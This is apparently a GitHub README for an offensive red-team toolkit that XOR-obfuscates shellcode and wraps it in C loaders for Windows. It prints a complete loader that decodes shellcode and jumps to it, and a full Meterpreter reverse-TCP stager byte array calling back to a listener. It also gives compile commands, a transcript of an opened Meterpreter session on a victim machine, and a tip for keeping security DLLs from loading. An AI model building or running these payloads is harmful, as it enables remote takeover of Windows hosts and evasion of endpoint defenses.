 # Shellcoding
Shellcoding Utilities and shellcode obfuscator generator.


# Shellcode generator

Choose a key max size int32. Then generate the shellcode using `generator.exe`. The final payload is created using `generator.py`.

```
> generator.exe 1337 path_to_raw_shellcode_file
Encoded using the following key: 0x00000539 (1337)
\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41
```

Generate the final payload to be compiled.

```
python3 generator.py 1337 \x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41
#include <windows.h>

int main() {

    DWORD key = 0x539;
    DWORD dwSize = 23;
    DWORD dwProtection = 0;
    CHAR *shellcode = GlobalAlloc(GPTR, dwSize);
    VirtualProtect(shellcode, dwSize, PAGE_EXECUTE_READWRITE, &dwProtection);

    strcpy(shellcode, "\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41");

    DWORD *current;
    int i = 0;
    for(i; i < dwSize / 4; i++) {
        current = (DWORD*)shellcode;
        *current = *current ^ key;
        shellcode += 4;
    }
    shellcode -= dwSize;

    asm ("mov %0, %%eax\n\t"
         "push %%eax\n\t"
         "ret"
         :
         : "r" (shellcode));

    // We are probably never going to reach that point
    GlobalFree(shellcode);
    return 0;
}
```

Finally, compile the output file using GCC and you are good to go.

# WARNING

The way that the code is designed will prevent self modifying shellcode to work properly. Since the shellcode is part of the .text section which is by default READ/EXEC shellcode that perform write action will crash. I'm planning on releasing a writable wrapper soon.

# Example:

Standard meterpreter shellcode

```
#include <Windows.h>

int main() {
    asm("call code\n\t"
        ".byte 0xfc,0xe8,0x82,0x00,0x00,0x00,0x60,0x89,0xe5,0x31,0xc0,0x64,0x8b,0x50,0x30,0x8b,0x52,0x0c,0x8b,0x52,0x14,0x8b,0x72,0x28,0x0f,0xb7,0x4a,0x26,0x31,0xff,0xac,0x3c,0x61,0x7c,0x02,0x2c,0x20,0xc1,0xcf,0x0d,0x01,0xc7,0xe2,0xf2,0x52,0x57,0x8b,0x52,0x10,0x8b,0x4a,0x3c,0x8b,0x4c,0x11,0x78,0xe3,0x48,0x01,0xd1,0x51,0x8b,0x59,0x20,0x01,0xd3,0x8b,0x49,0x18,0xe3,0x3a,0x49,0x8b,0x34,0x8b,0x01,0xd6,0x31,0xff,0xac,0xc1,0xcf,0x0d,0x01,0xc7,0x38,0xe0,0x75,0xf6,0x03,0x7d,0xf8,0x3b,0x7d,0x24,0x75,0xe4,0x58,0x8b,0x58,0x24,0x01,0xd3,0x66,0x8b,0x0c,0x4b,0x8b,0x58,0x1c,0x01,0xd3,0x8b,0x04,0x8b,0x01,0xd0,0x89,0x44,0x24,0x24,0x5b,0x5b,0x61,0x59,0x5a,0x51,0xff,0xe0,0x5f,0x5f,0x5a,0x8b,0x12,0xeb,0x8d,0x5d,0x68,0x33,0x32,0x00,0x00,0x68,0x77,0x73,0x32,0x5f,0x54,0x68,0x4c,0x77,0x26,0x07,0x89,0xe8,0xff,0xd0,0xb8,0x90,0x01,0x00,0x00,0x29,0xc4,0x54,0x50,0x68,0x29,0x80,0x6b,0x00,0xff,0xd5,0x6a,0x0a,0x68,0xc0,0xa8,0xc5,0x84,0x68,0x02,0x00,0x1f,0x90,0x89,0xe6,0x50,0x50,0x50,0x50,0x40,0x50,0x40,0x50,0x68,0xea,0x0f,0xdf,0xe0,0xff,0xd5,0x97,0x6a,0x10,0x56,0x57,0x68,0x99,0xa5,0x74,0x61,0xff,0xd5,0x85,0xc0,0x74,0x0a,0xff,0x4e,0x08,0x75,0xec,0xe8,0x67,0x00,0x00,0x00,0x6a,0x00,0x6a,0x04,0x56,0x57,0x68,0x02,0xd9,0xc8,0x5f,0xff,0xd5,0x83,0xf8,0x00,0x7e,0x36,0x8b,0x36,0x6a,0x40,0x68,0x00,0x10,0x00,0x00,0x56,0x6a,0x00,0x68,0x58,0xa4,0x53,0xe5,0xff,0xd5,0x93,0x53,0x6a,0x00,0x56,0x53,0x57,0x68,0x02,0xd9,0xc8,0x5f,0xff,0xd5,0x83,0xf8,0x00,0x7d,0x28,0x58,0x68,0x00,0x40,0x00,0x00,0x6a,0x00,0x50,0x68,0x0b,0x2f,0x0f,0x30,0xff,0xd5,0x57,0x68,0x75,0x6e,0x4d,0x61,0xff,0xd5,0x5e,0x5e,0xff,0x0c,0x24,0x0f,0x85,0x70,0xff,0xff,0xff,0xe9,0x9b,0xff,0xff,0xff,0x01,0xc3,0x29,0xc6,0x75,0xc1,0xc3,0xbb,0xf0,0xb5,0xa2,0x56,0x6a,0x00,0x53,0xff,0xd5\n\t"
        "code:\n\t"
        "ret\n\t");

        return 0;
}
```

Compile it 

```
mingw32-gcc.exe -c meterpreter.c -o meterpreter.o
mingw32-g++.exe -o meterpreter.exe meterpreter.o
```

Profit

```
msf5 exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 0.0.0.0:8080
[*] Sending stage (179779 bytes) to 192.168.197.1
[*] Meterpreter session 3 opened (192.168.197.132:8080 -> 192.168.197.1:50634) at 2019-05-11 10:54:26 -0400

meterpreter > sysinfo
Computer        : WTL-SP-4XXHWT2
OS              : Windows 10 (Build 17763).
Architecture    : x64
System Language : en_US
Domain          : RingZer0
Logged On Users : 7
Meterpreter     : x86/windows
meterpreter >
```

# loader.c

A simple shellcode loader in C. This shellcode loader is not storing the shellcode in the data section. It store it directly in the text section to new to do shady memory allocation to call your shellcode.

The ASM syntax is for GCC compiler it can be adapted for VC too

# raw2hex.py

Convert raw shellcode into something else

```
raw2hex.py rawshellcodefile -list
0x90, 0x90

raw2hex.py rawshellcodefile
\x90\x90
```

# makefile.py

Generate the final C code

```
makefile.py shellcode.raw output.c
```
# PROCESS_CREATION_MITIGATION_POLICY_BLOCK_NON_MICROSOFT_BINARIES_ALWAYS_ON.c

C code to execute your payload and avoiding any NON MICROSOFT DLLs from been loaded.

# Credit
Mr.Un1k0d3r RingZer0 Team
